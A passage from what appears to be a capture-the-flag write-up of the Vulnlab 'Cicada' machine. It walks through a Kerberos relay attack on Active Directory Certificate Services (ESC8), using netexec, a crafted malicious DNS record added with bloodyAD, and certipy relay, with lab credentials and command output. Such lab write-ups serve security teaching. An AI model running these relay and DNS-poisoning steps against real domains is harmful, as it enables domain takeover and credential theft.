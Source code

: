 ```

oxdf@hacky$ netexec ldap DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M maq
LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225        [*] None (name:DC-JPQ225) (domain:cicada.vl) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123 
MAQ         DC-JPQ225.cicada.vl 389    DC-JPQ225        [*] Getting the MachineAccountQuota
MAQ         DC-JPQ225.cicada.vl 389    DC-JPQ225        MachineAccountQuota: 10

```

With a Windows host on the domain, I can run [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay), which will handle the entire exploit, coercing authentication and relaying it to the HTTP certificate server.

The other approach is from my Linux VM, where I’ll use the strategy described in [this Synactiv post](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html) to add a DNS record that includes a serialized SPN that will trick the server into requesting a Kerberos ticket for the machine account but connects to the malicious record which points to the attacker. The attacker can relay that back to the DC to request a ticket.

```

flowchart TD;
    A[Auth as\nRosie.Powell]-->B(Join Windows VM\nto domain);
    B-->C(RemoteKrbRelay.exe);
    C-->D[Certificate as\nDC-JPQ225$];
    A-->E(Add malicious\nDNS record);
    E-->F(Coerce with\nPetitPotam);
    F-->D;

```

I’ll only show the Linux attack path here. The machine author, xct, covers the first approach in [his writeup](https://vuln.dev/vulnlab-cicada/).

#### Attack

The record to add is structured as `<host><empty CREDENTIAL_TARGET_INFOMATION structure>`, which in this case will be `DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`. I’ll set the DNS record with `bloodyAD`:

```

oxdf@hacky$ bloodyAD -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 10.10.14.79
[+] DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA has been successfully added

```

I’ll start `certipy relay` targeting the ADCS webserver, and it listens on SMB:

```

oxdf@hacky$ certipy relay -target 'http://dc-jpq225.cicada.vl/' -template DomainController
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Targeting http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445

```
